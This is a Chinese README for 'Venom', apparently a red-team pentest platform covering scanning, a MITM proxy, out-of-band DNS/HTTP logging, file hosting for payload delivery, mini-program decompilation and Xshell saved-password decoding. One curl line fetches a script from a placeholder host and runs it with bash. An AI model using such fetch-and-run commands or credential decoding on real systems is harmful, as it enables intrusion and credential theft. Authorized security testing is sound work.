<h3 align="center">
  
</h3>


<p align="center">
  <a href="https://github.com/Zcentury/Venom/releases">
    
  </a>
</p>


<h3 align="center">
  致命精准的渗透测试利器 · 专为红队打造的集成化安全平台
</h3>

---

## 🎯 简介

**Venom** 是专为渗透测试工程师和安全研究员设计的新一代集成化安全测试平台。项目由 Electron + Vue3 桌面端和 Go 编写的本地引擎组成，通过 gRPC 将资产测绘、端口扫描、数据处理、MITM 代理、Web 辅助工具、小程序反编译等能力整合到统一工作台中。

Venom 的定位不是堆满入口的“大而全菜单”，而是把红队与安全测试过程中常见的重复动作收口到一套可联动的流程里：测绘结果可以直接送入端口扫描，抓到的流量可以送入加解密工作流，调通的工作流又可以挂回 MITM 规则中自动执行。



---

## ⚡ 核心功能

| 功能模块 | 核心价值 | 当前能力 |
|---------|---------|---------|
| 🚀 端口扫描 | 快速发现开放端口和 Web 暴露面 | 批量目标导入、端口策略预设、自定义端口、主机发现、协议识别、Web 指纹识别、Socks5 代理、实时进度和结果表格 |
| 🗺️ 空间测绘 | 聚合外部测绘结果并收敛攻击面 | FOFA、Hunter、DayDayMap 查询，测绘语法收藏，结果复制，选中资产发送到端口扫描 |
| 🔐 数据处理 | 快速清洗、比较和转换数据 | JSON 查询与 CSV 导出、文本差异对比、可视化加解密工作流、预设保存/分享/导入 |
| 🧩 加解密工作流 | 把一次性数据处理变成可复用流水线 | Base64/Base32/URL/Unicode/Hex/XOR，MD5/SHA/SM3/HMAC，AES/DES/3DES/RC4/SM4，RSA/SM2，参数处理与 DSL 辅助函数 |
| 🛰️ MITM 代理 | 在流量入口层完成捕获、命中、改写和转发 | HTTP/HTTPS 监听、CA 导出与状态检测、上游 HTTP/HTTPS/SOCKS5、触发器、请求/响应修改规则、与加解密预设联动 |
| 📡 Web 工具 | 配合 Vnx 提供带外验证与投递能力 | 302 跳转、文件管理、DNSLog、HTTPLog，支持 API Key 配置和连通性检测 |
| 📱 微信小程序反编译 | 辅助分析本地微信小程序包 | 扫描 Applet 目录、小程序信息识别、多版本反编译、敏感信息提取、自定义提取规则、协同调试服务 |
| 🔥 POC 模板生成 | 快速构建标准化验证模板 | HTTP 类型 POC 模板生成、基础信息、风险等级、Matcher、Extractor、YAML 预览与复制 |
| 🛠️ 其他工具 | 管理常用工具和本地凭据分析 | 自定义快捷方式启动器、Xshell 会话密码解码 |

---

## 🛠️ 安装

进入 [Releases](https://github.com/Zcentury/Venom/releases/latest) 下载对应平台的安装包。

首次启动时，Venom 会检查本地引擎。如果没有检测到引擎，启动页会提供自动下载和手动安装两种方式；网络环境需要代理时，可以在启动页配置代理后再继续下载。

**可能遇到的问题**

1. 如果 **MacOS** 提示 `"Venom"已损坏，无法打开。你应该将它移到废纸篓`。

    

    **解决方法**：

    ```bash
    sudo xattr -dr com.apple.quarantine /Applications/Venom.app
    ```

---

## 🎮 使用

### 场景一：🌐 资产测绘与端口扫描联动

从外部测绘平台快速收敛资产，再进入本地扫描确认真实暴露面。

**空间测绘**：支持 **FOFA / Hunter / DayDayMap**。配置 API Key 后即可查询资产，结果表格支持字段选择、分页、复制和语法收藏。

**发送到端口扫描**：在测绘结果中选中 IP 或域名，可以直接发送到端口扫描模块，减少手工整理目标的时间。

**端口扫描**：支持从文件、剪贴板或文本框批量导入目标，内置 Web 常用、Top100、Top1000、RCE、精简、全端口等策略，也可以直接填写自定义端口。



### 场景二：🚀 协议识别与 Web 指纹探测

端口扫描不只返回“开了哪个端口”，还会尽量补齐后续判断需要的信息。

扫描配置支持端口扫描、协议识别、Web 指纹三个阶段独立启停，并可以分别设置线程、超时、重试等参数。结果表格会展示主机、端口、协议、版本、状态码、标题、Web Server、组件和 Banner，方便继续定位高价值服务。

需要走代理的场景，可以在扫描配置中填写 Socks5 代理。

### 场景三：🔐 数据清洗、对比与加解密工作流

把常见的数据处理动作集中在一个地方完成。

**JSON 提取**：粘贴 JSON 后输入查询语法即可提取目标字段，结果可以转表格或导出 CSV。

**数据对比**：内置双栏 Diff 编辑器，适合快速比较两次请求、响应或配置差异。

**加解密工作流**：从左侧拖入编码、摘要、对称加密、非对称加密等组件，按顺序组成处理流水线。调通后可以保存为预设，也可以分享或导入配置。





### 场景四：🛰️ MITM 自动签名与自动改写

MITM 模块用于承接 HTTP/HTTPS 流量，并在进入上游之前完成匹配、改写和预处理。

当前模块包含 **代理流量、代理监听、上游代理、触发器、修改规则**。监听器负责接入流量，触发器负责判断哪些请求进入处理链，修改规则负责读取字段、拼接输入、调用加解密预设并写回 Header、Query、Form、JSON Body 或 Raw Body。



典型链路可以是：

```text
Client -> Venom MITM -> Burp / 上游代理 -> Target
```

对于动态签名、请求体加密、响应解包、字段重算等场景，可以先在“数据处理 / 加解密”中拖出工作流并保存为预设，再在 MITM 修改规则中引用，让流量经过时自动处理。

### 场景五：📡 Web 工具与带外验证

Web 工具模块需要先配置并连通 **Vnx** 服务，配置项包含 Vnx 地址和 API Key。连通后可使用以下能力：

**302 跳转**：创建可控跳转链接，支持启停、复制、访问和访问次数统计。

**文件管理**：上传文件并生成下载链接或文本链接，适合投递脚本、EXP、配置文件等临时资源。

**DNSLog / HTTPLog**：生成专属域名或监听 URL，支持刷新和自动刷新，用于验证无回显漏洞、SSRF、Blind RCE 等场景。



```bash
curl -k -L https://xxxx/file/1/file -o echo.sh && chmod +x echo.sh && bash echo.sh
```





### 场景六：📱 微信小程序反编译与信息提取

微信小程序模块面向本地微信 Applet 目录分析。

配置 Applet 路径和输出目录后，可以扫描本地小程序包，识别 AppID、主体、名称、版本等信息；对指定版本执行反编译后，可以打开输出目录查看源码，也可以按规则提取接口、页面路径、配置、敏感字段等信息。

规则配置页支持新增、修改、删除提取规则。协同服务可用于配合 `venom-wxmp` 做局域网调试和页面跳转。



### 场景七：🔥 POC 模板生成与常用工具启动

**POC 模板生成** 当前处于 BETA 阶段，主要用于快速生成 HTTP 类型验证模板。可以填写模板 ID、名称、作者、风险等级、描述、参考链接、Classification、Metadata、请求、Matcher 和 Extractor，右侧实时生成 YAML 并支持复制。

**快捷方式** 支持把本地常用工具加入 Venom 面板，可配置程序路径、工作目录、启动参数、环境变量和图标。

**Xshell 密码解码** 支持输入 Xshell 会话文件或目录路径，自动使用当前 Windows 用户 SID 和用户名，也可以手动指定，用于批量解析会话中的主机、端口、账号和密码。







---

## 🤝 问题反馈

如果出现以下几种情况，请 **积极** 联系作者反馈，或提交 Issue：

- 在使用过程中，存在看不懂的功能 **（请务必告诉我，不要觉得是自己不会用）**
- 在使用过程中，发现用起来不方便的功能 **（不舒服绝不能凑合，务必和我联系）**
- 某些功能想要进行联动
- 有自己想要补充的功能建议
- 出现 BUG
- 出现漏洞

出现以上几种问题，请一定要及时和我反馈，这是对我的肯定，也是对我的认可，我将始终 **以用户体验** 为第一目标！

---

## 💕 问题解答

**Q: 为什么程序这么大？**

**A:** 因为架构采用了 `Electron` + `gRPC`，Electron 会内置浏览器运行时，所以安装包体积会比纯原生程序大。

**Q: 为什么不用 `wails`？**

**A:** 最开始设计时确实采用过 `wails`，但在开发过程中，每改动一个功能都需要较长时间重启，严重影响开发体验，所以更换为现在的 Electron 架构。

**Q: Web 工具为什么需要先配置 Vnx？**

**A:** 302 跳转、文件管理、DNSLog、HTTPLog 这类能力需要公网或私有化服务承接外部回连，因此 Venom 通过 Vnx 提供服务端能力，桌面端负责配置和管理。

---

## ⚠️ 免责声明

**重要提示：本工具仅供安全研究和授权渗透测试使用！**

1. **法律合规**：使用者必须确保在获得明确授权的情况下使用本工具
2. **责任范围**：开发者不对任何非法使用行为承担法律责任
3. **使用场景**：仅限于：
   - 获得授权的渗透测试
   - 安全研究和学习
   - 企业安全评估
   - CTF 竞赛练习
4. **禁止行为**：严禁用于以下场景：
   - 未经授权的网络攻击
   - 恶意渗透和破坏
   - 数据窃取和勒索
   - 任何违反网络安全法的行为

**使用本工具即表示您同意遵守上述条款。如有违反，后果自负！**

---

## 🧸 公众号


---

## 📈 Star 记录

[](https://starchart.cc/Zcentury/Venom)
